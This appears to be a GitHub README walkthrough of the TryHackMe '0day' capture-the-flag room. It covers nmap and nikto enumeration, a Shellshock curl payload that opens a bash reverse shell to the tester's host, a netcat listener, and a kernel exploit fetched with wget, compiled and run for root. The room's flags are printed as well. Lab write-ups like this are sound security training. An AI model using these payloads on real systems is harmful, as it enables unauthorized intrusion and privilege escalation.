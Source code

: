 
# TryHackMe: 0day 🐚

## Overview

**0day** is a beginner-friendly CTF challenge on [TryHackMe](https://tryhackme.com/room/0day) that focuses on classic web exploitation and privilege escalation using known vulnerabilities like Shellshock.

- **Platform**: TryHackMe
- **Difficulty**: Easy–Medium
- **Category**: Web, Linux, Exploitation, Privilege Escalation
- **Machine IP**: `10.10.61.64`

---

## Objectives

✅ Discover web services and potential vulnerabilities  
✅ Exploit Shellshock via a CGI script  
✅ Gain initial foothold as `www-data`  
✅ Escalate privileges using a kernel exploit  
✅ Retrieve `user.txt` and `root.txt` flags  

---

## Tools Used

- `nmap` – for port scanning and enumeration  
- `nikto` – to discover web vulnerabilities  
- `bash reverse shell` – to get a foothold  
- `wget`, `gcc` – for compiling and running exploits  

---

## Walkthrough

### 🔍 Enumeration

```bash
nmap -T5 -sV -p80,22 -Pn -A -sS -O -vv 10.10.61.64 -oA nmapScan
```

Discovered:
- Port 22: OpenSSH 6.6.1p1
- Port 80: Apache 2.4.7
- OS: Ubuntu 14.04.1 LTS

```bash
nikto -h http://10.10.61.64
```

Found:
- `/cgi-bin/test.cgi` is vulnerable to **Shellshock**
- Interesting directories: `/backup/`, `/admin/`, `/secret/`

---

### 🧨 Shellshock Exploitation

```bash
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<YOUR-IP>/8080 0>&1" http://10.10.61.64/cgi-bin/test.cgi
```

Meanwhile, on attack box:
```bash
nc -nvlp 8080
```

Got reverse shell as `www-data`.

---

### 🧑‍💻 User Access

```bash
cd /home/ryan
cat user.txt
# THM{Sh3llSh0ck_r0ckz}
```

---

### 🔝 Privilege Escalation

System Info:
- Ubuntu 14.04
- Kernel: 3.13.0-32-generic
- No `sudo` access
- Bash version vulnerable to known exploits

Uploaded Linux Kernel exploit `37292.c`:
```bash
wget http://<YOUR-IP>:8000/37292.c
gcc 37292.c -o exploit
./exploit
```

Spawned root shell.

```bash
cd /root
cat root.txt
# THM{g00d_j0b_0day_is_Pleased}
```

---

## Final Notes

- Web vulnerability: Shellshock (`CVE-2014-6271`)
- Local privilege escalation using kernel exploit
- Always try default vulnerable scripts and directories during enumeration

---

## Author

👤 **Faisal Khan**  
📂 Cybersecurity Enthusiast | CTF Player | Bug Bounty Hunter  
🔗 GitHub: [mrfaisal607](https://github.com/mrfaisal607)  
🌐 TryHackMe: [Profile](https://tryhackme.com/p/mrfaisal0003)

---

> “Exploit knowledge ethically. Every shell you get is a story you decode.” 🔍
